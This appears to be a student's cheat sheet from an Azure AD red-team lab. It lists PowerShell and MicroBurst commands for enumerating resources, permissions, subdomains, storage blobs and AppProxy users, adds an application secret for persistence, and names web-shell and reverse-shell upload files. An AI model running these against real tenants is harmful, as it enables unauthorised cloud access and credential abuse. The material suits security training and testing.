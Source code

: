 ## Example API Enumeration:
```Get-AzResource```:
```
Name              : infradminsrv/MicrosoftMonitoringAgent
ResourceGroupName : Research
ResourceType      : Microsoft.Compute/virtualMachines/extensions
Location          : germanywestcentral
ResourceId*        : /subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/infradminsrv/extensions/MicrosoftMonitoringAgent
Tags              :
```
- Use the following portion of the returned ResourceId for the URI Scope:
- **/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/infradminsrv**
- You could also try ```.../virtualMachines/``` without specifying the specific VM to see if you can read ALL VMs... but if not, specify the specific resource you are returned from ```Get-AzResource```:
```
$URI = 'https://management.azure.com/
/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/Research/providers/Microsoft.Compute/virtualMachines/infradminsrv/
/providers/Microsoft.Authorization/permissions?api-version=2015-07-01'
```
* * *

## Scripts
## MicroBurst
#### Subdomains:
```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1 
Invoke-EnumerateAzureSubDomains -Base defcorphq –Verbose
```


#### Storage Blobs:

- We can also add permutations like common, backup, code to ```permutations.txt``` in ```C:\AzAD\Tools\Microburst\Misc``` to tune it for the specific domain we are targetting\
- If the browser doesnt allow you access to the referenced blob try using Azure Storage Explorer GUI!
```
. C:\AzAD\Tools\MicroBurst\Misc\Invoke-EnumerateAzureBlobs.ps1 
Invoke-EnumerateAzureBlobs -Base defcorp
```

#### Users able to access AppProxy
```
. C:\AzAD\Tools\Get-ApplicationProxyAssignedUsersAndGroups.ps1 
Get-ApplicationProxyAssignedUsersAndGroups -ObjectId ec350d24-e4e4-4033-ad3f-bf60395f0362
```
## AzADAppSecret 
_Add user to Application we can access (probably as a managed identity)_
```
. C:\AzAD\Tools\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphaccesstoken -Verbose
```
* * * 

# Web Application File Upload

Files:
- studentxshell.phtml
- studentxtoken.phtml
- RevShell_phtml.phtml

```